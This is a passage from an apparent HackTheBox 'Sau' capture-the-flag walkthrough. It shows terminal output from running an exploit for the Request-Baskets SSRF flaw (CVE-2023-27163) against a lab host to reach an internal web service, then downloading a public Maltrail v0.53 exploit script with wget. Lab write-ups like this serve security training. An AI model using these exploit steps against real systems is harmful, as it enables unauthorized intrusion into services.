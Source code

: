 <br />
Run the exploit.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/sau]
└─$ python3 exploit.py http://10.10.11.224:55555 http://127.0.0.1
Exploit for SSRF vulnerability on Request-Baskets (1.2.1) (CVE-2023-27163).
Exploit successfully executed.
Any request sent to http://10.10.11.224:55555/koicwd will now be forwarded to the service on http://127.0.0.1.
```
{% endraw %}

<br />
The exploit is forwarding the localhost webserver on port 80 to the new basket that we just created.  Try navigating to this page in the web browser and view the internal website.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/sau/landing80.png" title="Port 80 Landing Page" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Lookup Mailtrail, v0.53, to see if any known vulnerabilities exist.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/sau/mailexp.png" title="Mailtrail Exploit" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://github.com/spookier/Maltrail-v0.53-Exploit">https://github.com/spookier/Maltrail-v0.53-Exploit</a>

<br />
Download this new exploit so we can run it.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/sau]
└─$ wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/refs/heads/main/exploit.py -O mailexploit.py
--2025-01-29 15:01:18--  https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/refs/heads/main/exploit.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 2606:50c0:8002::154, 2606:50c0:8000::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2200 (2.1K) [text/plain]
Saving to: ‘mailexploit.py’

mailexploit.py                                             100%[========================================================================================================================================>]   2.15K  --.-KB/s    in 0s      

2025-01-29 15:01:18 (45.5 MB/s) - ‘mailexploit.py’ saved [2200/2200]
```
{% endraw %}
